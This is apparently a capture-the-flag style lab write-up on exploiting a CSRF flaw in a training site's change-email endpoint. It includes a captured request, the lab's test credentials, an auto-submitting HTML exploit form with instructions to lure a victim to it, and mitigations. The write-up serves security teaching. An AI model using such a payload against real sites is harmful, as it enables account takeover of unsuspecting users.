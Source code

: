 # Lab 1 — CSRF vulnerability (no defenses) — Clean Write-up

## Title

CSRF — Change Email (No CSRF Token)

## Goal

Exploit a Cross‑Site Request Forgery (CSRF) vulnerability in the application's *change email* functionality to change the victim's email address.

## Target / Credentials

* Target host: `0ab0008304e509aa806a4949004c00d0.web-security-academy.net`
* Test account: `wiener:peter`

---

## Summary

The `POST /my-account/change-email` endpoint accepts an `email` parameter but does not require or verify a CSRF token (or any origin/referrer check). This allows an attacker to craft an HTML page that automatically submits a POST request which changes the logged-in user's email address when they visit the malicious page.

---

## Evidence (Captured request)

```
POST /my-account/change-email HTTP/2
Host: 0ab0008304e509aa806a4949004c00d0.web-security-academy.net
Cookie: session=<user-session-cookie>
Content-Type: application/x-www-form-urlencoded

email=wiener2%40normal-user.net
```

Note: there is no CSRF token or other anti-CSRF parameter in the request body or headers.

---

## Reproduction steps (manual)

1. Open the application and log in with `wiener:peter`.
2. Use Burp (or browser devtools) to intercept the request when changing the email via the application UI.
3. Observe the `POST /my-account/change-email` request and confirm there is no CSRF token and the request only needs the `email` form field.
4. Create a malicious HTML page that automatically submits a `POST` form to that endpoint with an attacker-controlled email value.
5. Host the malicious page on an exploit server (or attacker-controlled site).
6. Have the victim (the logged-in user) visit the malicious page while authenticated to the target — the form submits using the victim's session cookie and the email will be changed.

---

## Proof-of-Concept (exploit HTML)

```html
<!-- PoC: CSRF exploit to change victim's email -->
<form method="POST" action="https://0ab0008304e509aa806a4949004c00d0.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="5wiener@normal-user.net">
</form>
<script>
  // Auto-submit when the page loads
  document.forms[0].submit();
</script>
```

**Usage:** upload this HTML to the exploit server and lure the target to visit it while authenticated. When the form is submitted, the application's session cookie is sent with the request and the email will update.

---

## Result / Expected Outcome

* Successful exploitation changes the victim's account email to the attacker-controlled email `5wiener@normal-user.net` (or whatever value used in the PoC).
* The lab is solved when the email has been changed.

---

## Root Cause

The application accepts state-changing requests without requiring an anti-CSRF token and without validating the request origin (no `Origin`/`Referer` checks). Browsers automatically attach cookies to same-site requests, enabling CSRF when protections are missing.

---

## Suggested Mitigations (defensive guidance)

1. **CSRF tokens**: Add a per-session (or per-request) unpredictable CSRF token in the form and validate it server-side on state-changing POST requests.
2. **SameSite cookie attribute**: Set `Set-Cookie: session=<...>; SameSite=Lax` or `SameSite=Strict` where appropriate to reduce cross-site requests sending cookies. (Note: Lax still allows top‑level GET navigations; for POSTs, token-based defenses are still needed.)
3. **Origin / Referer checks**: Validate `Origin` or `Referer` headers for sensitive actions when feasible.
4. **Re-authentication / confirmation**: For critical changes (email, password), require the user to re-enter their password or confirm via email.
5. **Use POST and require a valid Content-Type**: Ensure the server only accepts requests with an expected `Content-Type` (e.g., `application/x-www-form-urlencoded`) and verify payload contents.

---

## Notes / Tips

* Avoid relying on security-by-obscurity (e.g., secret parameter names) — tokens must be unpredictable and validated server-side.
* CSRF mitigation should be applied to all state-changing endpoints (`POST`, `PUT`, `DELETE`) that rely on cookies for authentication.
* Test mitigations with legitimate legitimate workflows to ensure usability is not broken.

---

*Prepared as a concise lab write-up for submission and review.*
